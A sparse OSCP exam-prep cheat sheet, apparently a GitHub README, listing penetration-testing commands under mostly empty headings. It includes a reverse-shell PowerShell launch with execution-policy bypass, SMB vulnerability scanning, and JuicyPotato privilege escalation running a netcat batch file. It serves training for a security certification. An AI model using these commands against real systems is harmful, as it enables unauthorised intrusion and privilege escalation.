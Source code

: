 # OSCP-2022
Notes compiled for the OSCP exam.

# Recon



# Initial Exploitation

## Shells

Have a web shell? Check if server can reach you:
```
$ sudo tcpdump -i tun0 -n icmp -v
```

Execute PowerShell script non-interactively:
```
$ powershell -executionpolicy bypass ".\rshell.ps1 arg1 arg2"
```


## FTP [21 TCP]


## SMB/Samba [139, 445 TCP]

Enumerate via. SMB.
```
$ python3 ~/OSCP/Tools/enum4linux-ng/enum4linux-ng.py [target] 
```

Check for SMB vulnerabilities.
```
$ nmap --script smb-vuln-* [target]
```



# Linux Privilege Escalation


# Windows Privilege Escalation

## Service Permissions

```
# windows/winXP
> icacls/cacls [fullpath/to/service]

# powershell
PS> Get-Acl
PS> Get-ChildItem | Get-Acl
```

## File & Folder Permissions

## Acecss Token Abuse

https://www.notion.so/CHEATSHEET-ef447ed5ffb746248fec7528627c0405#5cedd479d1c1429e8018211371eec1ad


JuicyPotato - `SeImpersonatePrivilege` or `SeAssignPrimaryPrivilege` is enabled.
```
> whoami /privs
> JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * -c
```



# Password Cracking

Online cracker: https://crackstation.net/

